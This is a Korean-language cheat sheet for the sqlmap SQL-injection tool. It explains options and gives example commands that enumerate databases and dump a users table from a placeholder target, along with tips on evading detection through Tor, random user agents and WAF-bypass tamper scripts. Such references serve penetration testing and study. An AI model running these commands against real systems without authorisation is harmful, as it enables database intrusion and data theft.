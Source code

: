 # sqlmap 옵션 정리

## 1. 기본 사용법

```bash
sqlmap -u "http://target.com/vuln.php?id=1" [옵션]
```

- `-u` : 공격할 URL 지정
- `-r` : 요청 내용을 담은 파일 사용 (ex. Burp Suite에서 내보낸 요청)
- `--data` : POST 데이터 직접 입력
- `-p` : 테스트할 파라미터 지정

## 2. 주요 옵션 설명

### 탐지 관련

- `--dbs` : 데이터베이스 목록 조회
- `--tables` : 테이블 목록 조회 (DB 지정 필요: `-D`)
- `--columns` : 컬럼 목록 조회 (테이블 지정 필요: `-T`)
- `--dump` : 데이터 덤프 (컬럼/테이블/DB 지정 가능)
- `--schema` : DB 구조 전체 출력
- `--search` : 특정 문자열이 포함된 테이블/컬럼 검색

### 인증/세션

- `--cookie` : 쿠키 직접 지정
- `--auth-type` : 인증 방식 지정 (ex. Basic, Digest)
- `--auth-cred` : 인증 정보 입력 (ex. user:pass)
- `--proxy` : 프록시 사용 (ex. http://127.0.0.1:8080)

### 우회/탐지 우회

- `--random-agent` : User-Agent 랜덤 변경
- `--tor` : Tor 네트워크 사용
- `--delay` : 요청 간 딜레이 (초)
- `--timeout` : 타임아웃 설정
- `--threads` : 동시 스레드 수 조절

### 공격 방식

- `--technique` : 사용할 SQLi 기법 지정 (B: Boolean, E: Error, U: Union, S: Stacked, T: Time, Q: Inline)
- `--level` : 테스트 강도 (1~5, 기본 1)
- `--risk` : 위험도 (1~3, 기본 1)

### 기타

- `-o` : 최적화 옵션 자동 적용
- `--batch` : 모든 질문 자동 "yes"
- `--tamper` : 우회용 tamper 스크립트 적용
- `--output-dir` : 결과 저장 경로 지정

## 3. 실전 예시

### 데이터베이스 목록 확인

```bash
sqlmap -u "http://target.com/vuln.php?id=1" --dbs
```

### 특정 DB의 테이블 확인

```bash
sqlmap -u "http://target.com/vuln.php?id=1" -D testdb --tables
```

### 특정 테이블의 데이터 덤프

```bash
sqlmap -u "http://target.com/vuln.php?id=1" -D testdb -T users --dump
```

### POST 요청, 쿠키, 프록시 사용

```bash
sqlmap -u "http://target.com/vuln.php" --data="id=1" --cookie="PHPSESSID=xxxx" --proxy="http://127.0.0.1:8080" --dbs
```

## 4. 팁

- `--batch` 옵션을 사용하면 자동화에 유리함
- `--tamper`로 WAF 우회 가능 (ex. `--tamper=between,space2comment`)
- `-p`로 특정 파라미터만 지정해 효율적 테스트 가능

---

실제 상황에 맞게 옵션을 조합해 사용하면 됨. 자세한 옵션은 `sqlmap --help` 참고.
